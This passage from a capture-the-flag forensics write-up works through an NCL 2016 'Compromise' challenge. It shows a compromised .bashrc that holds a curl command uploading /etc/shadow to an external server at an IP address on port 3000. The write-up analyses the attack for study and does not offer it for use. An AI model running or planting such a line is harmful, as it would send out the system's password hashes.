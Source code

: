 <div class="rBorder" markdown="1">
<span style="color:red">7. __What is the URL that the hacker uses to process uploads of the /etc/shadow file (use the full URL, including port)?__</span>

For this one the answer won't be in the bash history... but it will be in the bash shell script. This might be due to the fact that the hacker had no admin permissions and needed a way to upload the file - thus the .bashrc might have had improper permissions set giving all users "root" privilege.

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# ls -a
.  ..  application  .bash_history  .bashrc  docs  README.md
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bashrc 
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

---snip---

curl \
  -F "image=@/etc/shadow" \
  http://216.242.103.2:3000/uploader.php
```
__Answer: http://216.242.103.2:3000/uploader.php__
</div>

## Checksums:

<a href="/images/nclp-3.png"><img src="/images/nclp-3.png"></a>

For this challenge we are provided the following file: [NCL-2016-Game2-CorruptedHash.txt](https://jhalon.github.io/download/NCL-2016-Game2-CorruptedHash.txt)
